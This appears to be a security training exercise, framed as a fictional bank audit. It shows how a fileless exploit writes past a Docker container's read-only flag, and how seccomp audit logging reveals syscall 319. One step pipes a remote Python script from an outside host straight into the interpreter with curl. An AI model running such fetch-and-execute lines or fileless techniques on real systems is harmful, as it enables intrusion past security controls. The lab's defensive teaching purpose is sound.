 # WhizCash Bank

WhizCash Bank had its annual security audit. The result was forwarded to you.

# Result of the External Security Audit

After the external security audit of the bank's infrastructure, a security vulnerability was found. Although the containers were started with the read-only flag, an auditor was able to write something to the file system.

You are now responsible for closing this security gap. In order to test the vulnerability, the auditor has provided you with a test exploit.

## How the exploit does work

The auditor gives you the following instructions on how the exploit can currently be executed:

> **_NOTE:_**  To see what happens, you have to activate an audit profile for seccomp provided here [audit.json](./profiles/audit.json).

1. Starting a container with read-only file system:

        sudo docker run --name fileless -d -it --rm --read-only --security-opt seccomp=[path-to-audit-json]/audit.json python:3.9.1

2. Run the following command to see which syscalls are executed

        sudo journalctl -f | grep audit

3. Now you are able to run the exploit provided by the auditor:

        docker exec -it fileless /bin/bash
    
    and execute the exploit inside the container:

        curl -s https://sec4dev.s3.eu-central-1.amazonaws.com/output.py | python3

In the journalctl log you should see a syscall with the id 319:

    Oct 26 18:47:40 VM-204e5f1e-327f-4a61-a86b-dbf904cf8fa8 audit[53400]: SECCOMP auid=4294967295 uid=0 gid=0 ses=4294967295 subj=? pid=53400 comm="python3" exe="/usr/local/bin/python3.9" sig=0 arch=c000003e syscall=319 compat=0 ip=0x7fa1b4f78347 code=0x7ffc0000
